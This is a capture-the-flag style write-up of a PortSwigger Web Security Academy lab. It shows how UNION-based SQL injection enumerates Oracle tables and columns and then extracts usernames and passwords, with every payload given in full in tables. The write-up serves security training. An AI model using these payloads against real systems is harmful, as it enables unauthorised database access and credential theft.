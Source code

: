 # SQL injection attack, listing the database contents on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on Oracle databases”*, we demonstrated how an attacker can enumerate Oracle database tables, their columns, and sensitive user credentials using a series of UNION SELECT queries against the `all_tables` and `all_tab_columns` system views. Because the application concatenates user input directly into SQL statements without sanitisation, we pivoted from initial UNION tests to full schema enumeration and credential harvesting.

---

# Descriprion

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Full data breach**: Oracle’s system views (`all_tables`, `all_tab_columns`) make schema enumeration straightforward once injection is possible.
* **Persistence risk**: Knowledge of table and column structures allows attackers to craft further malicious queries or establish backdoors.
* **Compliance violations**: Harvesting plaintext or weakly hashed credentials can trigger GDPR, CCPA, or equivalent reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                          | Intended SQL generated by the app                                                                                                 | What actually happens & why                                                     |
| - | --------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 1 | Confirmed number and type of columns via UNION injection (2 columns, both strings).                                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT 'a','b'--`                                                               | Verified injection point and established query structure.                       |
| 2 | Enumerated tables with:<br>`' UNION SELECT table_name,NULL FROM all_tables--`                                                           | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name,NULL FROM all_tables--`                                       | Retrieved all table names. Identified `USERS_TOAEAL` as the target users table. |
| 3 | Enumerated columns for `USERS_TOAEAL` with:<br>`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Revealed sensitive columns `USERNAME_DINZLR` and `PASSWORD_BTNGGB`.             |
| 4 | Extracted credentials with:<br>`' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | Retrieved full list of usernames and passwords.                                 |
| 5 | Logged in using harvested credentials.                                                                                                  | —                                                                                                                                 | Administrative access granted, lab solved.                                      |

---

![Lab banner – PortSwigger Apprentice level](3.png)

> *Extracting the username and password column that contain the username and password info*

## Observable Output

| Test / Payload                                                                           | Visible Result                                 | What it Proved                       |
| ---------------------------------------------------------------------------------------- | ---------------------------------------------- | ------------------------------------ |
| `' UNION SELECT 'a','b'--`                                                               | Page rendered with injected values             | Confirmed 2-column structure.        |
| `' UNION SELECT table_name,NULL FROM all_tables--`                                       | List of Oracle system + custom tables          | Schema enumeration successful.       |
| `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Displayed `USERNAME_DINZLR`, `PASSWORD_BTNGGB` | Sensitive column names identified.   |
| `' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | List of usernames and passwords                | Full credential disclosure achieved. |

---

![Lab banner – PortSwigger Apprentice level](4.png)

> *The list of usernames and passwords outputed*

## Conclusion

By leveraging UNION-based SQL injection against Oracle system views, we escalated from basic injection discovery to a full schema compromise, ultimately harvesting usernames and passwords. The lab highlights the risk of unsanitised SQL concatenation in Oracle environments.

